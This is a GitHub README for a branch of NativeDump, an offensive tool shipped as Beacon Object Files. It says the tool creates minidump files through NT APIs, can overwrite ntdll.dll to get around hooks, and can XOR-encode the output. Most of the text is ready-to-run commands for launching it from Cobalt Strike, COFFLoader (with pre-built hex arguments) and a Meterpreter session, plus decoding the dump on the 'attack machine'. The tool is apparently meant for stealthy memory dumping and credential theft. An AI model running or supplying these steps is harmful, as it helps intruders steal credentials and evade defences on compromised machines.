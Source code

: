 # NativeDump - "bof-flavour" branch

This branch implements the same functionality as the main branch using BOF files: 

- Minidump file generation using only NTAPIS
- Overwrite the Ntdll.dll library (Optional)
- XOR encoding (Optional)

You can execute the files using Cobalt Strike, TrustedSec's [COFFLoader](https://github.com/trustedsec/COFFLoader) or Meterpreter's [bofloader module](https://docs.metasploit.com/docs/using-metasploit/advanced/meterpreter/meterpreter-executebof-command.html).

-----------------------------------------

## Cobalt Strike

You can execute the BOF file after importing the aggressor script "nativedump.cna":

```
nativedump <OVERWRITE_TECHNIQUE> <FILENAME> <XOR_KEY>
``` 

The first argument is used for overwriting ntdll.dll:
- "disk": Using a DLL already on disk. The default path is "C:\Windows\System32\ntdll.dll".    
- "knowndlls": Using the KnownDlls folder.
- "debugproc": Using a process created in debug mode. The default process is "c:\windows\system32\calc.exe".
  
![bof1](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/nativedump/Screenshot_BOF1.png)

It is also possible to encode the file with a custom XOR key:

![bof1b](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/nativedump/Screenshot_BOF1b.png)

And then decode it using Decoder.exe in the attack machine:

```
Decoder.exe <INPUT_FILE> <OUTPUT_FILE> <XOR_KEY>
```

![c4](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/nativedump/Screenshot_C4.png)

-----------------------------------------

## COFFLoader

```
COFFLoader64.exe go nativedump_bof.o <OVERWRITE_TECHNIQUE> <FILENAME> <XOR_KEY>
```

![bof2](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/nativedump/Screenshot_BOF2.png)

The arguments must be generated using COFFLoader's [beacon_generate.py script](https://github.com/trustedsec/COFFLoader/blob/main/beacon_generate.py). If you want to use only the first argument the values are:
- "disk": Use the value 09000000050000006469736b00
- "knowndlls": Use the value 0e0000000a0000006b6e6f776e646c6c7300
- "debugproc": Use the value 0e0000000a000000646562756770726f6300
  
Example using the option "disk":

```
COFFLoader64.exe go nativedump_bof.o 09000000050000006469736b00
```

![bof3](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/nativedump/Screenshot_BOF3.png)

--------------------------------------

## Meterpreter's bofloader module

You can run BOF files in your Meterpreter session after loading the "bofloader" module. It is important to interact with the session with a timeout around 60 seconds, so the BOF can finish execution:

```
sessions -i <SESSION-ID> --timeout 60
load bofloader
execute_bof nativedump_bof.o --format-string zzz <OVERWRITE_TECHNIQUE> <FILENAME> <XOR_KEY>
```

![bof4](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/nativedump/Screenshot_BOF4.png)
